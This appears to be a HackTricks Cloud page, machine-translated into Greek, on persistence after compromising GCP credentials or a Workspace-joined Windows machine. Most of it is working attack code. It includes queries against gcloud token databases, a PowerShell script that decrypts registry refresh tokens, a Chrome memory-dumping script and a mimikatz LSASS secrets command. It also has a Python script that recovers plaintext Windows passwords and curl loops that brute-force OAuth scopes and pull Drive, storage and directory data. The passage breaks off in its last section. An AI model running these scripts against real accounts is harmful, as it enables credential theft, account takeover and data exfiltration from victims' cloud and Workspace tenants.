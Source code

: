 # GCP - Non-svc Persistance

{% hint style="success" %}


paLearn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αυτές είναι χρήσιμες τεχνικές μόλις, με κάποιο τρόπο, έχετε παραβιάσει κάποια GCP διαπιστευτήρια ή μηχανή που εκτελείται σε περιβάλλον GCP.

## Token Hijacking

### Authenticated User Tokens

Για να αποκτήσετε το **τρέχον token** ενός χρήστη μπορείτε να εκτελέσετε:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Δείτε σε αυτή τη σελίδα πώς να **χρησιμοποιήσετε απευθείας αυτό το token χρησιμοποιώντας gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Για να αποκτήσετε τις λεπτομέρειες για **να δημιουργήσετε ένα νέο access token** εκτελέστε:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Είναι επίσης δυνατό να βρείτε refresh tokens στο **`$HOME/.config/gcloud/application_default_credentials.json`** και στο **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Για να αποκτήσετε ένα νέο ανανεωμένο access token με το **refresh token**, το client ID και το client secret, εκτελέστε:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Η διάρκεια ισχύος των refresh tokens μπορεί να διαχειριστεί στο **Admin** > **Security** > **Google Cloud session control**, και από προεπιλογή είναι 16 ώρες αν και μπορεί να ρυθμιστεί να μην λήξει ποτέ:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Η ροή αυθεντικοποίησης όταν χρησιμοποιείτε κάτι όπως το `gcloud auth login` θα ανοίξει ένα παράθυρο στο πρόγραμμα περιήγησης και μετά την αποδοχή όλων των scopes, το πρόγραμμα περιήγησης θα στείλει ένα αίτημα όπως αυτό στην ανοιχτή θύρα http από το εργαλείο:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Τότε, το gcloud θα χρησιμοποιήσει την κατάσταση και τον κώδικα με ένα σκληρά κωδικοποιημένο `client_id` (`32555940559.apps.googleusercontent.com`) και **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) για να αποκτήσει τα **τελικά δεδομένα ανανέωσης κωδικού**.

{% hint style="danger" %}
Σημειώστε ότι η επικοινωνία με το localhost είναι σε HTTP, οπότε είναι δυνατό να παγιδευτούν τα δεδομένα για να αποκτηθεί ένα refresh token, ωστόσο αυτά τα δεδομένα είναι έγκυρα μόνο 1 φορά, οπότε αυτό θα ήταν άχρηστο, είναι πιο εύκολο να διαβάσετε το refresh token από το αρχείο.
{% endhint %}

### OAuth Scopes

Μπορείτε να βρείτε όλους τους Google scopes στο [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ή να τους αποκτήσετε εκτελώντας:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Είναι δυνατόν να δείτε ποιες περιοχές υποστηρίζει η εφαρμογή που χρησιμοποιεί το **`gcloud`** για την αυθεντικοποίηση με αυτό το σενάριο:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Μετά την εκτέλεση του, ελέγχθηκε ότι αυτή η εφαρμογή υποστηρίζει αυτές τις περιοχές:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
είναι ενδιαφέρον να δούμε πώς αυτή η εφαρμογή υποστηρίζει το **`drive`** scope, το οποίο θα μπορούσε να επιτρέψει σε έναν χρήστη να κλιμακώσει από το GCP στο Workspace αν ένας επιτιθέμενος καταφέρει να αναγκάσει τον χρήστη να δημιουργήσει ένα token με αυτό το scope.

**Δείτε πώς να** [**καταχραστείτε αυτό εδώ**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Λογαριασμοί Υπηρεσιών

Ακριβώς όπως με τους αυθεντικοποιημένους χρήστες, αν καταφέρετε να **συμβιβάσετε το ιδιωτικό αρχείο κλειδιού** ενός λογαριασμού υπηρεσίας θα μπορείτε να **έχετε πρόσβαση σε αυτό συνήθως όσο θέλετε**.\
Ωστόσο, αν κλέψετε το **OAuth token** ενός λογαριασμού υπηρεσίας αυτό μπορεί να είναι ακόμη πιο ενδιαφέρον, επειδή, ακόμη και αν από προεπιλογή αυτά τα tokens είναι χρήσιμα μόνο για μία ώρα, αν ο **θύμα διαγράψει το ιδιωτικό api key, το OAuh token θα παραμείνει έγκυρο μέχρι να λήξει**.

### Μεταδεδομένα

Προφανώς, όσο βρίσκεστε μέσα σε μια μηχανή που τρέχει στο περιβάλλον GCP θα μπορείτε να **έχετε πρόσβαση στον λογαριασμό υπηρεσίας που είναι συνδεδεμένος σε αυτή τη μηχανή επικοινωνώντας με το endpoint μεταδεδομένων** (σημειώστε ότι τα Oauth tokens που μπορείτε να αποκτήσετε σε αυτό το endpoint είναι συνήθως περιορισμένα από scopes).

### Αποκαταστάσεις

Ορισμένες αποκαταστάσεις για αυτές τις τεχνικές εξηγούνται στο [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## GCPW - Google Credential Provider for Windows

Αυτό είναι το single sign-on που παρέχει το Google Workspaces ώστε οι χρήστες να μπορούν να συνδεθούν στους υπολογιστές Windows τους χρησιμοποιώντας **τα διαπιστευτήρια του Workspace τους**. Επιπλέον, αυτό θα αποθηκεύσει tokens για πρόσβαση στο Google Workspace σε κάποιο μέρος στον υπολογιστή.

Είναι δυνατόν να ελέγξετε αν το GCPW είναι εγκατεστημένο σε μια συσκευή ελέγχοντας αν η παρακάτω διαδικασία υπάρχει ή αν οι παρακάτω κλειδιά μητρώου υπάρχουν:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Στην πραγματικότητα, στο **`HKLM:\SOFTWARE\Google\GCPW\Users`** είναι δυνατόν να βρείτε τους **τομείς** που επιτρέπεται να συνδεθούν στο κλειδί `domains_allowed` και σε υποκλειδιά είναι δυνατόν να βρείτε πληροφορίες για τον χρήστη όπως email, εικόνα, όνομα χρήστη, διάρκεια ζωής token...

Και στο **`HKCU:\SOFTWARE\Google\Accounts`** είναι δυνατόν να αποκτήσετε πρόσβαση στο email του χρήστη και στο κρυπτογραφημένο **refresh token** αν ο χρήστης έχει συνδεθεί πρόσφατα.

### GCPW - Tokens Ανανέωσης Μητρώου

Μέσα στο μητρώο **`HKCU:\SOFTWARE\Google\Accounts`** μπορεί να είναι δυνατόν να βρείτε κάποιους λογαριασμούς με το **`refresh_token`** κρυπτογραφημένο μέσα. Η μέθοδος **`ProtectedData.Unprotect`** μπορεί εύκολα να το αποκρυπτογραφήσει.

<details>

<summary>Αποκτήστε <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> δεδομένα και αποκρυπτογραφήστε τα refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Παράδειγμα εξόδου:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Όπως εξηγείται σε [**αυτό το βίντεο**](https://www.youtube.com/watch?v=FEQxHRRP\_5I), αν δεν βρείτε το token στο μητρώο, είναι δυνατόν να τροποποιήσετε την τιμή (ή να διαγράψετε) από **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** και την επόμενη φορά που ο χρήστης θα έχει πρόσβαση στον υπολογιστή, θα χρειαστεί να συνδεθεί ξανά και το **token θα αποθηκευτεί στο προηγούμενο μητρώο**.

### GCPW - Δίσκος Ανανεωτικών Tokens

Το αρχείο **`%LocalAppData%\Google\Chrome\User Data\Local State`** αποθηκεύει το κλειδί για την αποκρυπτογράφηση των **`refresh_tokens`** που βρίσκονται μέσα στα **προφίλ Google Chrome** του χρήστη όπως:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Είναι δυνατόν να βρείτε κάποιο **C# code** που έχει πρόσβαση σε αυτά τα tokens με αποκρυπτογραφημένο τρόπο στο [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Επιπλέον, η κρυπτογράφηση μπορεί να βρεθεί σε αυτόν τον κώδικα: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Μπορεί να παρατηρηθεί ότι χρησιμοποιείται το AESGCM, το κρυπτογραφημένο token ξεκινά με μια **έκδοση** (**`v10`** αυτή τη στιγμή), στη συνέχεια έχει [**12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), και στη συνέχεια έχει το **cypher-text** με ένα τελικό **mac 16B**.

### GCPW - Dumping tokens από τη μνήμη διαδικασιών

Το παρακάτω script μπορεί να χρησιμοποιηθεί για να **dump** κάθε **Chrome** διαδικασία χρησιμοποιώντας το `procdump`, να εξάγει τις **αλφαβητικές ακολουθίες** και στη συνέχεια να **αναζητήσει** ακολουθίες σχετικές με **access και refresh tokens**.

**Από την εμπειρία μου, δεν βρήκε κανένα token dumping Chrome διαδικασιών ή ακόμα και τη διαδικασία `gcpw_extension.exe`.**

<details>

<summary>Dump Chrome processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\path\to\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\path\to\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\ChromeDumps"
$targetString = "ya29" # "1//" for refresh_tokens

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for the target string in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$asciiStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_ascii_strings.txt"
$unicodeStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_unicode_strings.txt"

Write-Output "Extracting ASCII strings from $dumpFile"
& $stringsPath $dumpFile > $asciiStringsOutputFile

Write-Output "Extracting UTF-16 strings from $dumpFile"
& $stringsPath -u $dumpFile > $unicodeStringsOutputFile

Write-Output "Searching for '$targetString' in $asciiStringsOutputFile"
Select-String -Path $asciiStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}

Write-Output "Searching for '$targetString' in $unicodeStringsOutputFile"
Select-String -Path $unicodeStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}
}
```
</details>

### GCPW - Ανάκτηση του καθαρού κειμένου του κωδικού πρόσβασης

Για να εκμεταλλευτείτε το GCPW για να ανακτήσετε το καθαρό κείμενο του κωδικού πρόσβασης, είναι δυνατόν να εξάγετε τον κωδικό πρόσβασης που είναι κρυπτογραφημένος από το **LSASS** χρησιμοποιώντας το **mimikatz**:
```
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Στη συνέχεια, αναζητήστε το μυστικό όπως `Chrome-GCPW-<sid>` όπως στην εικόνα:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Στη συνέχεια, με ένα **access token** με το πεδίο `https://www.google.com/accounts/OAuthLogin`, είναι δυνατόν να ζητήσετε το ιδιωτικό κλειδί για να αποκρυπτογραφήσετε τον κωδικό πρόσβασης:

<details>

<summary>Script για να αποκτήσετε τον κωδικό πρόσβασης σε καθαρό κείμενο δεδομένου του access token, του κωδικού πρόσβασης που έχει κρυπτογραφηθεί και του resource id</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

### GCPW - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
\
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

Κατά προεπιλογή, το GCPW δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω σενάριο μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να παραχθεί ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
```
**Λάβετε ένα διακριτικό πρόσβασης με όλους αυτούς τους τομείς**:

<details>

<summary>Bash script για τη δημιουργία διακριτικού πρόσβασης από refresh_token με όλους τους τομείς</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Ορισμένα παραδείγματα χρησιμοποιώντας μερικούς από αυτούς τους τομείς:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

